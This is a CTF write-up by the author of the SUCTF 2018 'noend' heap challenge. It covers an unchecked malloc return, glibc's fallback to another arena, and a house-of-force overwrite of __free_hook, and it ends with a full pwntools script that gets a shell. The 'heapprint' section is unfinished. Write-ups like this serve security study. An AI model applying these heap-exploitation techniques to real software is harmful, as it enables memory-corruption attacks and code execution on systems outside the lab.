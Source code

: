 ```yaml
---
title:        "SUCTF 2018 noend && heapprint writeup"

# jekyll-seo-tag

author:       "Ne0"

---
```

I made two challenges for SUCTF this year. I got the ideas when I was exploring linux pwn technique and I want to share them with others. Though the logic of the challenges are extremely easy, the exploitation may be a little hard. Since only two teams solved one of the challenge and nobody solved the other, I decide to write a wp for them. If you like the writeup, follow me on (github)[https://github.com/Changochen] ^_^

## Noend

This is a heap challenge. When I was playing the heap one day, I found that if you malloc a extremely large size that ptmalloc can't handle, it would alloc and use another arena afterward. And this is where the challenge comes from.

### Program info

Let's take a look in the program
```bash
[*] '/home/ne0/Desktop/suctf/noend/noend'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

and the main logic of the program is
```cpp
    char* s;
    char buf[0x20];
    unsigned long long  len;
    Init();

    while(1){
        memset(buf,0,0x20);
        read(0,buf,0x20-1);
        len=strtoll(buf,NULL,10);
        s=(char*)malloc(len);
        read(0,s,len);
        s[len-1]=0;
        write(1,s,len&0xFFFF);
        write(1,"\n",1);
        if(len<0x80)
        free(s);
    }
    return 0;
```

You can endless alloc a chunk with arbitrary size, but after you write something into it ,it gets freed if its size is less than 0x80. So most of the heap pwning techniques don't work here as you can have only one chunk allocated.

### Bug

Seems no bug at the first glance. But take a deeper look at the following code.
```cpp
s=(char*)malloc(len);
read(0,s,len);
s[len-1]=0;
```

It doesn't check the status of malloc. If the malloc fails due to some reason, `s[len-1]=0` is equal to `*(char*)(len-1)=0`, which means we can write a `\x00` to almost arbitrary address.

### Exploit

The leak is easy, and I will skip that part.

Suppose now we have the address of libc `libc_base` and heap `heap_base`, what do we do next?

The first idea that comes to me is `house of force` --- by partial overwrite a `\x00` to the top chunk ptr. But after we do that ,we find that the main arena seems not working anymore..

Here's a useful POC:

```cpp
int main(){
    printf("Before:\n");
    printf("%p\n",malloc(0x40));
    printf("Mallco failed:%p\n",malloc(-1));
    printf("After:\n");
    printf("%p\n",malloc(0x40));
    return 0;
}
```

```bash
Before:
0xee7420
Mallco failed:(nil)
After:
0x7fb7b00008c0
```
The pointer malloc returns is `0x7fb7b00008c0` ??!

You can read the source of glibc for more details. In a word, when you malloc a size that the main arena can't handle, malloc will try to use another arena. And later allocations will all be handled by the arena. The insteresting part is that, after you switch the arena, if you malloc a extremely big size again, the arena will not change anymore! That means we can partial overwrite the top chunk pointer of this arena and use `house of force`!

A little debugging after leak the address of another arena (in this case `0x7f167c000020`)
Almost same as main arena
```bash
gdb-peda$ telescope 0x7f167c000020 100
0000| 0x7f167c000020 --> 0x200000000 
0008| 0x7f167c000028 --> 0x0 
0016| 0x7f167c000030 --> 0x0 
0024| 0x7f167c000038 --> 0x0 
0032| 0x7f167c000040 --> 0x0 
0040| 0x7f167c000048 --> 0x0 
0048| 0x7f167c000050 --> 0x7f167c0008b0 --> 0x0 
0056| 0x7f167c000058 --> 0x0 
0064| 0x7f167c000060 --> 0x0 
0072| 0x7f167c000068 --> 0x0 
0080| 0x7f167c000070 --> 0x0 
0088| 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0096| 0x7f167c000080 --> 0x0 
0104| 0x7f167c000088 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0112| 0x7f167c000090 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0120| 0x7f167c000098 --> 0x7f167c000088 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
0128| 0x7f167c0000a0 --> 0x7f167c000088 --> 0x7f167c000078 --> 0x7f167c000920 --> 0x0 
..............
```

Write the top chunk pointer
```bash
gdb-peda$ telescope 0x7f167c000020 100
0000| 0x7f167c000020 --> 0x200000000 
0008| 0x7f167c000028 --> 0x7f167c0008b0 --> 0x0 
0016| 0x7f167c000030 --> 0x0 
0024| 0x7f167c000038 --> 0x0 
0032| 0x7f167c000040 --> 0x0 
0040| 0x7f167c000048 --> 0x0 
0048| 0x7f167c000050 --> 0x0 
0056| 0x7f167c000058 --> 0x0 
0064| 0x7f167c000060 --> 0x0 
0072| 0x7f167c000068 --> 0x0 
0080| 0x7f167c000070 --> 0x0 
0088| 0x7f167c000078 --> 0x7f167c000a00 --> 0x7f168bfa729a 
0096| 0x7f167c000080 --> 0x7f167c0008d0 --> 0x0 
0104| 0x7f167c000088 --> 0x7f167c0008d0 --> 0x0 
0112| 0x7f167c000090 --> 0x7f167c0008d0 --> 0x0 
0120| 0x7f167c000098 --> 0x7f167c000088 --> 0x7f167c0008d0 --> 0x0 
0128| 0x7f167c0000a0 --> 0x7f167c000088 --> 0x7f167c0008d0 --> 0x0 
....

gdb-peda$ telescope 0x7f167c000a00
0000| 0x7f167c000a00 --> 0x7f168bfa729a 
0008| 0x7f167c000a08 --> 0x7f168bfa729a 
0016| 0x7f167c000a10 --> 0x7f168bfa729a 
0024| 0x7f167c000a18 --> 0x7f168bfa729a
```

You can see that instead of size `0xFFFFFFFFFFFFFFF`, I fake the size to be `0x7f168bfa729a`. This is a little confusing? Actually I calculate the size as `onegadget+(address of freehook-address of the top chunk`.
This means that if I `malloc(address of freehook-address of the top chunk)`, the size left happens to be `onegadget` ,and it locates in the address of `freehook`!This is really hackish. Trigger `free` and you can get the shell.

Of course you can also write `system` into `freehook`.Although actually you can't write exactly `system` but `system+1` into `freehook`, because the prev inused bit of the top chunk is always set.But it will stop u from getting a shell. Try it yourself! 


### Final Script
```python
from pwn import *

pc='./noend'

libc=ELF('./libc.so.6')

p=process(pc,env={"LD_PRELOAD":'./libc.so.6'})
gdb.attach(p,'c')
#p=remote("pwn.suctf.asuri.org",20002)


def ru(a):
    p.recvuntil(a)

def sa(a,b):
    p.sendafter(a,b)

def sla(a,b):
    p.sendlineafter(a,b)

def echo(size,content):
    p.sendline(str(size))
    sleep(0.3)
    p.send(content)
    k=p.recvline()
    return k

def hack():
    echo(0x38,'A'*8)
    echo(0x28,'A'*8)
    echo(0x48,'A'*8)
    echo(0x7f,'A'*8)    
    k=echo(0x28,'A'*8)    
    libcaddr=u64(k[8:16])
    libc.address=libcaddr-0x3c1b58
    print("Libc base-->"+hex(libc.address))
    p.sendline(str(libcaddr-1))
    sleep(0.3)
    echo(0x38,'A'*8)    
    p.clean()
    echo(0x68,'A'*8)    
    echo(0x48,'A'*8)    
    echo(0x7f,'A'*8)    
    k=echo(0x68,'A'*8)    
    libcaddr=u64(k[8:16])
    old=libcaddr
    print("Another arena-->"+hex(old))
    raw_input()

    target=libc.address+0xf2519+0x10+1 # onegadget
    libcaddr=libcaddr-0x78+0xa00
    off=libc.symbols['__free_hook']-8-0x10-libcaddr
    echo(0xf0,p64(off+target)*(0xf0/8))
    p.sendline(str(old+1))
    sleep(1)
    p.sendline()
    raw_input()
    echo(off,'AAAA')
    p.recvline()
    p.clean()
    echo(0x10,'/bin/sh\x00')
    p.interactive()

hack()

```

## Heapprint
To be continued
